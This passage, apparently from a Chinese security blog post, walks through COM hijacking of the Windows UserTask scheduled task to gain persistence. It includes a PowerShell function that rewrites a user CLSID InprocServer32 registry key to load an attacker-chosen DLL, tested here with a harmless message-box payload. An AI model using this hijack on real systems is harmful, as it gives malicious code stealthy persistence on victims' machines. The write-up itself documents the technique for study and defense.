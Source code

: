 如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-8-26/3-3.png)



**3、**编译

使用vc6.0新建dll工程，添加以上代码并加上payload：

MessageBox(NULL,"testexport","testexport",MB_OK);

编译并保存为c:\test\testexport.dll


**4、**修改注册表，劫持UserTask

powershell代码如下：

```
function Invoke-ScheduledTaskComHandlerUserTask
{
    [CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
    Param (
        [Parameter(Mandatory = $True)]
        [ValidateNotNullOrEmpty()]
        [String]
        $Command,

        [Switch]
        $Force
    )
    $ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
    if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
        New-Item $ScheduledTaskCommandPath -Force |
            New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
    }else{
        Write-Verbose "Key already exists, consider using -Force"
        exit
    }

    if (Test-Path $ScheduledTaskCommandPath) {
        Write-Verbose "Created registry entries to hijack the UserTask"
    }else{
        Write-Warning "Failed to create registry key, exiting"
        exit
    }  
}
Invoke-ScheduledTaskComHandlerUserTask -Command "c:\test\testexport.dll" -Verbose
```

**5、**注销用户，重启测试

弹框成功
